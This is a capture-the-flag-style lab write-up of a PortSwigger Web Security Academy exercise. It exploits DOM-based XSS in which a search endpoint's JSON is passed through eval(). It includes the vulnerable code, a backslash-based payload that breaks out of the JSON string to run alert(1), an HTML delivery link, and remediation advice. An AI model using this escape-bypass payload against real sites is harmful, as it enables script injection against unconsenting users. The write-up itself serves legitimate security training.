


# Security Vulnerability Report: DOM-Based XSS via Unsafe `eval()` in Search Functionality

**Author:** [Miaad Shirvani]  
**Platform:** PortSwigger Web Security Academy (Lab)  
**Type:** Cross-Site Scripting (XSS)  

---

## 1. Reconnaissance & Endpoint Discovery

The initial phase involved mapping the target application to identify potential attack surfaces. Using Burp Suite's **Site Map** and manual browsing, multiple endpoints were examined. The most promising candidate was the search functionality.

When a user submits a query via the search box, a JSON response named `search-results.js` is returned. This file contains the search term and is processed client‑side by a JavaScript function.

---

## 2. Vulnerability Analysis: `eval()` Misuse

In Burp Suite, after forwarding the search request (e.g., with the test string `"XSS"`), the response was inspected. The file `searchResults.js` revealed the following dangerous code pattern:

```javascript
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (xhr.readyState == 4 && xhr.status == 200) {
            eval('var searchResultsObj = ' + xhr.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
    xhr.open("GET", path + window.location.search, true);
    xhr.send();
}
```

The critical flaw is the use of **`eval()`** to parse the JSON response (`responseText`) instead of the secure `JSON.parse()`. This allows arbitrary JavaScript execution if the response contains malicious payloads.

---

## 3. Exploitation Strategy

Further investigation revealed two key behaviors:

- The JSON response **escapes double quotes** (`"`) but **does not escape backslashes** (`\`).
- By injecting a backslash before a double quote, the escaping mechanism is bypassed.

### Payload Construction

The goal is to break out of the JSON string and execute `alert(1)`. The following search term achieves this:

```
\"-alert(1)}//
```

When the server processes this input, it attempts to escape the double quote and produces:

```
{"searchTerm":"\\"-alert(1)}//", "results":[]}
```

- The double‑backslash (`\\`) cancels the escape, allowing the double quote to close the string.
- The subtraction operator (`-`) separates the expressions.
- `alert(1)` is executed.
- The closing curly brace (`}`) and two slashes (`//`) comment out the rest of the JSON object.

---

## 4. Exploit Delivery

To simulate a real‑world attack, a crafted link can be used. The following HTML page hosts the exploit URL:

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8" />
  <title>Exploit Link</title>
</head>
<body>
  <h1>Click the link below to trigger the exploit</h1>
  <a href="https://0a5b00f904d6968e812c93a1009600b5.web-security-academy.net/?search=\%22-alert(1)}//" target="_blank" id="exploitLink">
    Click here to run the exploit
  </a>
  <script>
    document.getElementById('exploitLink').addEventListener('click', function(event) {
      alert("You are about to visit the vulnerable URL with an exploit payload.");
    });
  </script>
</body>
</html>
```

When the victim clicks the link, the `eval()` call in `searchResults.js` executes the injected payload, triggering `alert(1)`.

---

## 5. Proof of Concept (Screenshots)

  
*Figure 1: State of the application before clicking the exploit link.*

  
*Figure 2: `alert(1)` dialog displayed after the exploit is triggered.*

---

## 6. Remediation Recommendation

- Replace `eval()` with `JSON.parse()` to safely parse JSON responses.
- Implement proper input sanitization and output encoding.
- Use Content Security Policy (CSP) headers to restrict script execution.

---

## 7. Key Takeaways

- Always avoid `eval()` with untrusted data.
- Burp Suite’s Site Map and Intercept are essential for finding hidden endpoints.
- Understanding how escaping works (or fails) enables precise payload crafting.

---

**Disclaimer:** This report is based on a controlled lab environment. Do not attempt against real systems without explicit permission.
